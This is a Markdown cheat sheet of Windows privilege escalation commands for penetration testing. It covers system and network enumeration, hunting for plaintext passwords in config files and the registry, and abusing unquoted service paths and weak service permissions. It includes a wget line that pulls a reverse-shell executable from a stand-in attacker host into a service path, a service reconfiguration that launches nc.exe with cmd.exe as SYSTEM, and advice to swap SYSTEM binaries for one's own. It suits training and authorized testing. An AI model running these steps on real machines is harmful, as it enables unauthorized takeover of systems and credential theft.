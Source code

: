 # Windows Privilege Escalation

Windows privilege escalation commands.

Other guides just in case:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* http://www.fuzzysecurity.com/tutorials/16.html
* https://github.com/xapax/security/blob/master/privilege_escalation_windows.md
* https://guif.re/windowseop?fbclid=IwAR0jmCV-uOLaUJCnKiGB2ZaDt9XZwlAGM3nTOH0GkS6c0hS63FFSGm97Tdc


### 1. SYSTEM INFORMATION + ACCOUNTS

```powershell
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```powershell
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.
```powershell
$ schtasks /query /fo LIST /v   # show scheduled tasks (verbose)

$ tasklist /SVC                 # show running processes / associated services

$ net start                     # start Windows services

$ driverquery                   # show 3rd-party drivers

$ net user %username%           # show info about user
```

### 4. QUICK WINS

Missing Windows patches:
1. `wmic qfe get Caption,Description,HotFixID,InstalledOn` (mostly not available to non-admins)
2. Find Windows privesc exploits.
3. Grep for their existence in the output of `wmic` (using KB numbers)
4. If any exploits are missing from the patchlist, use them and profit.

Hardcoded redentials in config files:
```powershell
# LEVEL 1
$ type C:\sysprep.inf
$ type C:\sysprep\sysprep.xml
$ type %WINDIR%\Panther\Unattend\Unattended.xml
$ type %WINDIR%\Panther\Unattended.xml

# LEVEL 2
$ dir /s *pass* == *cred* == *vnc* == *.config*

# LEVEL 3 (.xml .ini .txt)
$ findstr /si password *.xml *.ini *.txt

# LEVEL 4 (in registry)
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

"AlwaysInstallElevated": this setting allows users of any priv to install .msi files as SYSTEM.
```powershell
# Output of both commands need to = 1
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

For restarting services or binaries, try various methods to restart:
```powershell
$ net start
$ sc start
$mysql> RESTART;    # using service commands itself to restart
```

Unquoted service paths:  
A service is vulnerable path to the executable has a space in the filename and the file name is not wrapped in quote marks; exploitation requires write permissions to the path before the quote mark.
```powershell
# SCENARIO 1
$ wmic service get name,pathname        # Find possible vulnerable services
SERVICENAME           PATH
. . .                 . . .
PFNet                 C:\Program Files\Privacyware\PrivFirewall 7.0\pfw.exe
. . .                 . . .
$ wmic service get pathname,startname   # Check if service runs with Admin privileges
$ wget http://attacker.com/rshell.exe -O C:\Program Files (x86)\Privacyware\PrivFirewall.exe   # Transfer rshell to path
$ net start service / reboot computer /


```

Windows weak service permissions:
```powershell
$ sc qc [servicename]               # query service

$ accesschk.exe /accepteula         # DO THIS FIRST
$ accesschk.exe -ucqv UPNPHOST      # check required priv for every service using accesschk.exe
$ accesschk.exe -uwcqv "Authenticated Users" * # find services which allow access for "Authenticated Users"
```

Reconfigure Windows services to escalate privileges:
```powershell
$ sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc config upnphost obj= ".\LocalSystem" password= ""
$ net start upnphost
```

File and folder permissions:
* Look for weak permissions such as "NT AUTHORITY\AUTHENTICATED USERS: I M"
* For binaries that load with SYSTEM privileges, replace with your own binary.
```powershell
$ icacls [file or folder path]
$ cacls [file or folder path]
$ accesschk.exe -dqv [file or folder path]
```

Find all weak folder permissions per drive:
```powershell
$ echo Finding all weak folder permissions per drive
$ accesschk.exe -uwdqs Users c:\ /accepteula
$ accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive:
```powershell
$ accesschk.exe -uwqs Users c:\*.* /accepteula
$ accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Check PATH system variable:
* All non-default directories in root `C:\` will give WRITE access to the Authenticated Users group!!!
* Look for non-default dirs in `%path%`
